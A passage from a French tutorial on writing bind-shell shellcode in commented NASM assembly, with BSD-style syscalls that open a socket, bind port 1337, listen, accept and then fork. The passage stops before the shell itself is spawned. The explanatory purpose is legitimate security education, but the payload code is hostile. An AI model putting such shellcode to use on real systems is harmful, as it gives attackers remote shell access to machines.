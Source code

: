 On peut aussi éventuellement faire un fork après le accept, pour accepter plusieurs connexions à la fois, et éviter que le shellcode se termine lorsque l'on quitte le shell.

Allons-y !

J'ai commenté au maximum le code, pour l'expliquer :

	:::nasm
	section .text
	global _start
	_start:
	xor eax, eax
	push eax          ; protocol
	inc eax
	push eax          ; SOCK_STREAM
	inc eax
	push eax          ; AF_INET
	push eax          ; PADDING
	mov al, 97        ; socket(AF_INET, SOCK_STREAM, 0)
	int 0x80

	mov esi, eax      ; Sauvegarde du fd socket dans esi

	xor eax, eax      ; Construction d'une sockaddr
	push eax
	push word 0x3905  ; Port 1337
	push word 0x0201
	mov ecx, esp      ; Pointeur sur sockaddr

	push byte 16      ; sizeof(sockaddr)
	push ecx          ; sockaddr*
	push esi          ; sock
	push eax          ; PADDING
	mov al, 104       ; bind(sock, sockaddr*, sizeof(sockaddr))
	int 0x80

	xor eax, eax
	mov al, 5
	push eax
	push esi
	push eax
	mov al, 106       ; listen(sock, 5)
	int 0x80

	.ACCEPT:   
	xor eax, eax
	push eax
	push eax
	push esi
	push eax
	mov al, 30        ; accept(sock, 0, 0)
	int 0x80

	mov edi, eax

	xor eax, eax
	push eax
	mov al, 2         ; fork()
	int 0x80
